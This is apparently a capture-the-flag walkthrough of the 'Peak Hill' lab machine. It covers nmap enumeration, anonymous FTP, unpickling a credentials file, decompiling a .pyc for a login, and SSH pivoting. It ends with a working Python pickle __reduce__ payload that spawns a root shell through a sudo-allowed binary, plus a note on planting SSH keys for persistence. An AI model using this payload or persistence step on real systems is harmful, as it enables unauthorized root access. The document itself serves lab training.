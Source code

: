 # Peak Hill

## NMAP result
```
Nmap 7.91 scan initiated Sun Jul  4 01:23:14 2021 as: nmap -sS -n -Pn -A -p- -T4 -o nmap.txt 10.10.239.212
Nmap scan report for 10.10.92.113
Host is up (0.17s latency).
Not shown: 65531 filtered ports
PORT     STATE  SERVICE  VERSION
20/tcp   closed ftp-data
21/tcp   open   ftp      vsftpd 3.0.3
22/tcp   open   ssh      OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 7f:95:1a:d7:59:2f:19:06:ea:c1:55:ec:58:35:0c:05 (ECDSA)
|_  256 a5:15:36:92:1c:aa:59:9b:8a:d8:ea:13:c9:c0:ff:b6 (ED25519)
7321/tcp open   swx?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GenericLines, GetRequest, HTTPOptions, Help, RPCCheck, RTSPRequest: 
|     Username: Password:
|   NULL: 
|_    Username:
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port7321-TCP:V=7.91%I=7%D=7/4%Time=60E0C667%P=x86_64-pc-linux-gnu%r(NUL
SF:L,A,"Username:\x20")%r(GenericLines,14,"Username:\x20Password:\x20")%r(
SF:GetRequest,14,"Username:\x20Password:\x20")%r(HTTPOptions,14,"Username:
SF:\x20Password:\x20")%r(RTSPRequest,14,"Username:\x20Password:\x20")%r(RP
SF:CCheck,14,"Username:\x20Password:\x20")%r(DNSVersionBindReqTCP,14,"User
SF:name:\x20Password:\x20")%r(DNSStatusRequestTCP,14,"Username:\x20Passwor
SF:d:\x20")%r(Help,14,"Username:\x20Password:\x20");
Device type: firewall
Running (JUST GUESSING): Fortinet embedded (87%)
OS CPE: cpe:/h:fortinet:fortigate_100d
Aggressive OS guesses: Fortinet FortiGate 100D firewall (87%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 20/tcp)
HOP RTT    ADDRESS
1   ... 30

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jul  4 01:52:49 2021 -- 1 IP address (1 host up) scanned in 1775.61 seconds
```
## FTP
- FTP allowed anonymous login.
- After login found a file `creds` with `ls -la` command.
- Downloaded the creds file to local system `get creds`.
- When checking found the file deserialized with pickle.
- unpicked the file with below python code:
```
import pickle

data = open("creds_decoded.pkl", "rb")
res = pickle.load(data)

print(res)

```
- or we can use below code to get all data orderly:
```
#!/usr/bin/env python3

import pickle
import re

with open('creds.dat', 'rb') as f:
    data = pickle.load(f)
    sshuser = []
    sshpass = []

    for i in data:
        pos = int(re.findall('\d+', i[0])[0])
        if 'ssh_user' in i[0]:
            sshuser.append([pos, i[1]])
        else:
            sshpass.append([pos, i[1]])

    sshuser.sort()
    sshpass.sort()
    print("SSH user: {}".format(''.join([i[1] for i in sshuser])))
    print("SSH pass: {}".format(''.join([i[1] for i in sshpass])))

```
- Now we have ssh username and password:

## SSH - gherkin

- after ssh into gherkin we got a file cmd_service.pyc
- we copied the file to the local system, `scp gherkin@<ipaddress>:/home/gherkin/cmd_service.pyc .`
- We can decompile the file from https://www.decompiler.com/
- after decompiling we got encoded username and password in long format.
- we can use below code for to convert long to byte.
```
from Crypto.Util.number import long_to_bytes
print(long_to_bytes(1684630636))
print(long_to_bytes(2457564920124666544827225107428488864802762356))
```
- now we have username and password for port 7321.

## Login using port 7321 with user dill
- start nc.
- `nc ip_address 7321` and give username and password.
- Here we can run commands but we can't get out of the directory.
- Copy there ssh file and login through ssh.

## SSH user dill
- After login, if we run `sudo -l` we get the following output.
```
dill@ubuntu-xenial:~$ sudo -l
Matching Defaults entries for dill on ubuntu-xenial:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dill may run the following commands on ubuntu-xenial:
    (ALL : ALL) NOPASSWD: /opt/peak_hill_farm/peak_hill_farm
```
- try running `peak_hill_farm`
- cd `/opt/peak_hill_farm`
- `sudo ./peak_hill_farm`
- try entering anything to check how it runs. Seams the input needed to be in base64 encoded.
- Try giving input in base64, obvously we it won't work.
- Now we can try to pickle to execute command by deserilaizing commands and encoding in base64. The code is below:
```
import pickle
import base64

class execute(object):
    def __reduce__(self):
        import os
        return (os.system,("/bin/bash",))
   
print(base64.b64encode(pickle.dumps(execute())))
```
- Paste base64 command and now we are root.
- We can copy our public ssh key for persistance to root.